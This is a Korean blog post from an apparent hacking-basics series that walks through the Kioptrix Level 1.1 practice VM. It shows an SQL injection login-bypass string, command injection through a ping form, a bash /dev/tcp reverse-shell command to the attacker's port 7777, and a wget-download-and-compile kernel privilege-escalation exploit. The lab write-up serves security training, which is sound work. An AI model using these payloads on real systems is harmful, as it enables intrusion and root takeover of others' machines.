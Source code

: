 ```yaml
---
layout: post
title: '[해킹 기초] 16. Kioprix_Level 1.1'
date: '2023-01-13 11:59:10 +0900'
description: 'Kioprix_Level 1.1'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: True
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>

### <b>■ Kioprix_Level 1.1</b>
- [실습 환경]
    - Virtual Box(Kali Linux) - 공격자
    - Kioprix_Level 1.1 - 공격대상

- [공격 목표]
    - root 쉘 획득

- [공격 순서]
    1. nmap을 이용해 공격 대상 IP 확인.
    2. port 스캔.
    3. 취약점 조사.
    4. 취약점을 이용해 쉘 획득.

<hr>
### <b>■ 1. nmap을 이용해 공격 대상 IP 확인</b>
<img src="/assets/img/hacking/part2-10/1.png" alt="표사진"><br>
nmap을 이용해 범위 내에서 포트가 열려있는 장비들을 출력해 공격 대상 IP를 확인한다.
<hr>
### <b>■ 2. port 스캔.</b>
<img src="/assets/img/hacking/part2-10/2.png" alt="표사진"><br>
공격 대상 IP를 찾았으면 더 상세한 정보를 얻기 위해 위와 같은 명령어를 이용해 상세 정보를 result.txt 파일로 만든다.
<hr>
<img src="/assets/img/hacking/part2-10/3.png" alt="표사진"><br>
result.txt 파일을 확인 해 보면 위와 같이 열려있는 port 목록을 볼 수 있다. 여기서 80번 port가 열려있다고 나와있으니 웹에서 해당 페이지를 열어보자.
<hr>
### <b>■ 3. 취약점 조사.</b>
<img src="/assets/img/hacking/part2-10/4.png" alt="표사진"><br>
웹을 열어 해당 IP로 들어가보니 역시 80번 port가 열려있고 위와 같은 웹 페이지를 확인할 수 있었다.
<hr>
<img src="/assets/img/hacking/part2-10/5.png" alt="표사진"><br>
바로 sql injection을 수행 했다. Username:admin' or '1'='1 | Password:1234
<hr>
<img src="/assets/img/hacking/part2-10/6.png" alt="표사진"><br>
sql injection을 수행하니 로그인이 잘 되어 위와 같은 페이지가 나왔다. 웹 상에서 ping을 해주는 사이트 같은데 8.8.8.8을 넣고 submit을 눌렀다.
<hr>
<img src="/assets/img/hacking/part2-10/7.png" alt="표사진"><br>
역시 ping을 보내주고 그 결과 값을 웹 상에 표시해준다. bash shell에서 reverse shell을 연결해주는 명령어를 이용하면 이 취약점을 공격할 수 있을 거 같다.
<hr>
### <b>■ 4. 취약점을 이용해 쉘 획득.</b>
<img src="/assets/img/hacking/part2-10/8.png" alt="표사진"><br>
reverse shell을 하기 전에 공격자 PC에서 7777번 port를 열어준다.
<hr>
<img src="/assets/img/hacking/part2-10/9.png" alt="표사진"><br>
열어준 다음 다시 웹 페이지에 가서 위와 같이 입력한다. 
<br>bash -i >& /dev/tcp/[공격자 IP]/7777 0>&1 이 명령어는 reverse shell을 요청하는 Bash 명령어이다.
<hr>
<img src="/assets/img/hacking/part2-10/10.png" alt="표사진"><br>
다시 공격자 PC에 가면 위와 같이 피해자 PC shell을 탈취한 것을 볼 수 있다. 하지만 id를 입력해보면 root가 아닌 apache user로 접속되어 있다. 우리의 목표는 root 권한을 획득하는 것이다. 따라서 해당 운영체제의 취약점을 확인하기 위해서 uname -r을 이용해 해당 버전을 확인해 보자. 피해자 PC는 linux 2.6.9-55.EL을 사용하는 것을 확인할 수 있다.
<hr>
<img src="/assets/img/hacking/part2-10/11.png" alt="표사진"><br>
root 권한을 획득하기 위해서 searchsploit를 이용해 위에서 확인한 운영체제의 권한 상승 취약점을 확인해 봤다. 우리는 9545.C 파일을 이용해 권한 상승 공격을 할 것이다.
<hr>
<img src="/assets/img/hacking/part2-10/12.png" alt="표사진"><br>
9545.C 파일을 찾아서 /var/www/html로 옮긴다. 이 경로로 옮기는 이유는 피해자 PC에서 해당 파일을 다운로드해 실행시켜야 되기 때문이다. 옮겨주고 chmod를 이용해 권한을 주자.
<hr>
<img src="/assets/img/hacking/part2-10/13.png" alt="표사진"><br>
다시 피해자 PC shell로 이동한 다음 wget을 이용해 9545.c 파일을 다운받자. 다운받은 다음 gcc를 이용해 컴파일 한 다음 해당 파일을 실행 시키면 위와 같이 root 권한을 탈취한 것을 확인할 수 있다. 이것으로 Kioprix_Level 1.1의 목표인 root 권한을 획득했다.
<hr>

